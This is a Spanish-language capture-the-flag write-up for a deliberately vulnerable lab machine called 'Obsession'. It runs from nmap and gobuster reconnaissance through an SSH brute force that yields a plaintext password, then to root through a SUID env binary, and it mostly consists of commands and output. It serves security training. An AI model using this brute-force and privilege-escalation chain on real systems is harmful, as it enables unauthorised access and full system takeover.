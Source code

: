 - Tags: #Obsession
---
[Maquina Obsession](https://mega.nz/file/JHUEFZ4J#SyfKRfM6_xKBXLxP8JZKW-sVQnB0Nv2B1Dwbw6pRn9w) ==> Enlace de descarga a la maquina, 
```bash
7z x obsession.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh obsession.tar # Desplegamos el laboratorio
```
---

#### Fase Reconocimiento:
**( 172.17.0.2 )** ==> Direccion ip del **target**
```bash
pinc -c 1 172.17.0.2

wichSystem.py 172.17.0.2 # Determinamos que estamos anta una maquina linux
172.17.0.2 (ttl -> 64): Linux
```
---

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos descubrimiento de puertos expuestos en el target
extractPorts allPorts # Parseamos la informacion mas importante del primer escaneo
nmap -sC -sV -p21,22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detras de estos puertos.
 
 nmap --script http-enum -p80 172.17.0.2 # Nos reporta un archivo backup, Tendremos capacidad de directory listing
	/backup/: Backup folder w/ directory listing

nmap --script ftp-anon.nse -p21 172.17.0.2 # Tenemos vector de entrada.
	ftp-anon: Anonymous FTP login allowed (FTP code 230)
	-rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
	-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
```
---
**( 21/tcp open  ftp     vsftpd 3.0.5 )** ==> Tenemos servicio ftp expuesto pero no desactualizado, Pero tenemos una posible inicio de sesion con el usuario: **Anonymous** --> **( ftp-anon: Anonymous FTP login allowed (FTP code 230) )** 
**(22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)  )** ==> Tenemos expuesto un servicio ssh, Donde si logramos enumerar usuarios tendremos un verctor de ataque
**( 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu)) )** ==> Tenemos un servicio apache expuesto, el cual tendremos que auditar para detectar posibles vulnerabilidades 

#### Fase Reconocimiento Web:
**( http://172.17.0.2/ )** ==> Tenemos una web de nutricion y ejercicio, Donde tenemos un formulario de datos que tendremos que auditar para detectar si es vulnerable.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -o directoryReport   # Realizamos reconocimiento de rutas de directorios el cual no contempla dos accesibles
	 /backup/             [38;2;248;248;242mm (Status: 200) [Size: 937]
	 /important/          [38;2;248;248;242mm (Status: 200) [Size: 947]
```
---
**( http://172.17.0.2/backup/backup.txt )** ==> Nos reporta un posible usuari vulnerable: **( russoski )** 
**( ctrl + u )** ==> En modo codigo fuente, detectamos que este web reutilliza credenciales: **(  Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente  )**
```bash
nmap -p22 --script ssh-brute --script-args userdb=users.txt 172.17.0.2  # Aplicamos fuerza bruta para el usuario: ( russoski ) obteniendo sus credenciales validas.
	russoski:iloveme - Valid credentials # Tenemos una extrada por ssh para acceder al servidor
```
----

#### Intrusion
- Logramos acceder al **target**
```bash
ssh-keygen -R 172.17.0.2 && ssh russoski@172.17.0.2
```
---

#### Escalada Privilegios
**Nota** ==> Tenemos dos vias potenciales de elevar privilegios.
```bash
find / -perm -4000 2>/dev/null | xargs ls -l
-rwsr-xr-x 1 root root        48072 Apr  5  2024 /usr/bin/env # Este vinario es vulnerable

 sudo -l # Pedemos ejecutar este bianrio como root y despues obtener una shell privilegiada.
User russoski may run the following commands on e90fb4c799ef:
    (root) NOPASSWD: /usr/bin/vim
```
---
**Root** ==> Explotando binario **SUID**
```bash
 /usr/bin/env /bin/bash -p # Obtendremos una consola como root logrando el control total del target.
```
---
